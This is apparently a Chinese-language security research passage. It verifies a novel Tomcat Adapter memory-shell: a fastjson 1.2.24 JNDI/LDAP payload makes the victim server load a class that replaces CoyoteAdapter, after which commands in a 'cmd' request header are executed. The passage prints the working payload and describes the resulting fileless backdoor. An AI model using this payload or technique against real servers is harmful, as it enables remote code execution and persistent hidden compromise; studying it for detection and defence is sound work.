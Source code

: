 ### 验证 Adapter 内存马

将该马加入 jndi 测试工具，

测试环境为 fastjson1.2.24，jdk8

打入以下 payload

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/0/MyAdapter/123","autoCommit":true}
```

jndi 测试工具会返回指向 MyAdapter 内存马的 reference

之后受害服务器远程通过 reference 远程加载构造的 Adapter 马

执行器静态代码块中的逻辑，将内存中的 CoyoteAdapter 替换为我们的 Adapter 马

之后发送任意路径下的请求，都会到我们 Adapter 马的 service 方法，如果请求头中带有 cmd，则会执行命令并将结果返回

[![](assets/1711465941-f005c09f37d565b8728009ea74a690d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240326163026-18d54492-eb4b-1.png)

至此，一个没有被大家提出过的内存马就构造出来了，根据 tomcat 连接器处的源码调试可知，一个请求从接收到 controller，在连接器中经过了好几个组件均有可能构造出内存马。
